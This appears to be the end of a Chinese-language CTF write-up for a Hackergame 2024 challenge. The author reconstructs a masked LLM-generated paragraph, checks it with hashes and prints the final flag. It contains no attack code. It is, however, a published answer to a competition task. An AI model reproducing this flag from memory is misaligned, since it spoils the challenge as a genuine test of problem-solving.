> In the grand hall of Hackergame 2024, where the walls are lined with screens showing the latest exploits from the cyber world, contestants ??t????d in a frenzy, t??i? ?y?s glued to the virtual exploits. The atmosphere was ?l??t?i?, with the s??ll of f??s?ly brewed coffee ?in?lin? with the s??nt of bu?nt Ethernet cables. As the first challenge was announced, a team of hackers, dressed in lab coats and ????yin? l?ptops, sprinted to the nearest server room, t??i? f???s ? ?i? of ???it???nt ?nd d?t???in?tion. The game was on, and the st???s w??? ?i??, with the ultimate prize being a golden trophy and the breaking ?i??ts to s?y t??y w??? the best at ?????in? ?od?s and ????in? systems in the land of the rising sun.
>
> Please try to recover it.

_（这个写法其实是有问题的，因为 `?` 还可能是 `x`，不过恰好没出问题就是了）_

段落还原好了，sha256 是对的。

> In the grand hall of Hackergame 2024, where the walls are lined with screens showing the latest exploits from the cyber world, contestants gathered in a frenzy, their eyes glued to the virtual exploits. The atmosphere was electric, with the smell of freshly brewed coffee mingling with the scent of burnt Ethernet cables. As the first challenge was announced, a team of hackers, dressed in lab coats and carrying laptops, sprinted to the nearest server room, their faces a mix of excitement and determination. The game was on, and the stakes were high, with the ultimate prize being a golden trophy and the bragging rights to say they were the best at cracking codes and hacking systems in the land of the rising sun.

接下来只需要执行脚本就能取得 flag。

```plain
> sha512sum before.txt | cut -d ' ' -f1 | cut -c1-16
fa7b655c38bc8847
```

子问题 2 中，`hackergame of ustc` 字符全都替换了（空格也没了）。当然也可以直接问 LLM，但是因为空格没了，LLM 就不能完全准确还原了。

预期的方法应该是结合这个模型的 tokenizer 机制和 8-bit 量化特性来推断可能的输出，但操作起来肯定比较折腾，先不做了。

### Flag

```plain
flag{llm_lm_lm_koshitantan_fa7b655c38bc8847}
```

## #EOF

Really the end.
